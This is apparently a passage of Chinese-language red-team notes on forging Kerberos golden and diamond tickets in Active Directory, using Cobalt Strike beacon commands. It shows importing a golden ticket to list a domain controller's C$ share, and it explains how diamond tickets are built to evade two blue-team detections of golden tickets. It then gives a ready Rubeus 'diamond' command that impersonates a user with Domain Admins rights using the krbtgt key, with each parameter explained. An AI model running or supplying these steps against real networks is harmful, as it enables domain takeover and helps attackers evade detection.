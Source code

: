 导入金票到当前session
```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings

...
```

# Diamond Tickets

## 什么是Diamond Tickets？
与Golden Tickets一样，Diamond Tickets是一种 TGT，可用于以任何用户身份访问任何服务。


## 为什么需要Diamond Tickets？

首先要知道蓝队可以通过什么方法查找到Golden Tickets，通常有下面两种方法：

1. 查找没有相应AS-REQ的TGS-REQ
2. 查找有异常值的TGT，如给了10年的Mimikatz的生命周期

Diamond Tickets为了规避上面两种被侦查的方法提出两个思路：

1. TGS-REQs将有一个前面的AS-REQ。
2. TGT是由DC签发的，这意味着它将有来自域的Kerberos策略的所有正确细节。 即使这些可以在金票中准确伪造，但它更复杂，容易出错。


制作思路：
钻石票是通过修改由DC签发的合法TGT的字段而制成的。 这是通过请求TGT，用域的krbtgt哈希值对其进行解密，修改票据的所需字段，然后重新加密来实现的。

## 怎么制作Diamond Tickets？

1. 使用Rubeus.exe生成钻石票
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1112 /groups:512 /krbkey:390b2f[...snip...]91a8aa /nowrap
```

参数解释:
- /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the user without needing to know their password, NTLM/AES hash, or elevation on the host.
- /ticketuser is the username of the principal to impersonate.
- /ticketuserid is the domain RID of that principal.  This can be obtained using a command like ```powershell Get-DomainUser -Identity nlamb -Properties objectsid```.
- /groups are the desired group RIDs (512 being Domain Admins).
- /krbkey is the krbtgt AES256 hash.
